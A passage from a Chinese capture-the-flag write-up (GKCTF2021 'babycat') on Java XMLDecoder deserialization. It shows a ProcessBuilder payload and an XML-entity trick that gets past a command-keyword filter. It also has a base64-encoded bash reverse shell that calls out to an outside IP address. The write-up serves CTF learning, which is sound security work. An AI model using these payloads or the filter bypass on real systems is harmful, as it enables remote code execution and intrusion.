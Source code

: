 ```java
<java version="1.7.0_80" class="java.beans.XMLDecoder">
 <object class="java.lang.ProcessBuilder">
  <array class="java.lang.String" length="1">
    <void index="0"><string>calc</string></void>
  </array>
  <void method="start"></void>
 </object>
</java>
```

如果`XMLDecoder`解析了这个xml，就会导致命令执行。

但是内容ban了一些命令执行，考虑到是xml，可以利用实体编码来绕过：

```xml
<?xml version="1.0" encoding="UTF-8"?>
<java>
<object class="java.lang.&#80;rocessBuilder">
<array class="java.lang.String" length="3">
<void index="0">
<string>/bin/bash</string>
</void>
<void index="1">
<string>-c</string>
</void>
<void index="2">
<string>{echo,YmFzaCAtaSA+JiAvZGV2L3RjcC8xMjEuNS4xNjkuMjIzLzM5ODc2IDA+JjE=}|{base64,-d}|{bash,-i}</string>
</void>
</array>
<void method="start"/>
</object>
</java>
```

![image-20210903114858324]([WriteUp]GKCTF2021-babycat.assets/image-20210903114858324.png)
